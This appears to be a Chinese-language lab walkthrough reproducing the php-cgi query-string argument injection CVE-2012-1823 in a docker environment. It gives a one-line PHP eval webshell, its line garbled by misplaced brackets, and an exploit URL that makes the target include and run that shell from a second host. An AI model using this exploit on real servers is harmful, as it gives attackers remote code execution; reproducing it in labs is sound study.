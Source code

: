 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b19205a90605915595b46286db93401d4b4b56f4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b19205a90605915595b46286db93401d4b4b56f4.png)

CVE-2012-1823
=============

用户请求的querystring被作为了php-cgi的参数，命令行参数不仅可以通过#!/usr/local/bin/php-cgi -d include\_path=/path的方式传入php-cgi，还可以通过querystring的方式传入。但mod方式、fpm方式不受影响。

CGI模式下可控命令行参数

```php
c 指定php.ini文件（PHP的配置文件）的位置
n 不要加载php.ini文件
d 指定配置项b 启动fastcgi进程
s 显示文件源码
T 执行指定次该文件
h和? 显示帮助
```

进入CVE-2012-1823的docker环境

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5374441d4d4b9410d3b0e1aad6a96b9745644076.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5374441d4d4b9410d3b0e1aad6a96b9745644076.png)

访问`http://192.168.1.10:8080/info.php`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-529d3db02357d9a56a8ba8e556268d439d162fce.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-529d3db02357d9a56a8ba8e556268d439d162fce.png)

直接传参s即可访问源码

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a27263244dbdab5d6279cb21eff9fac378f5dea1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a27263244dbdab5d6279cb21eff9fac378f5dea1.png)

生成一个`shell.txt`，内容为一句话木马，这里生成txt是因为进行文件包含，然后在本地启动一个http服务

```php
<?php @eval($_POST[cmd];?)>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2a961731e1d79ffadbf545b6c3ecb0134e047d59.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2a961731e1d79ffadbf545b6c3ecb0134e047d59.png)

抓包构造文件包含`shell.txt`

```php
http://192.168.1.10:8080/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dhttp://192.168.1.5:8000/shell.txt
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d879d637a10a2decab24b797ff94ab598487e0e4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d879d637a10a2decab24b797ff94ab598487e0e4.png)
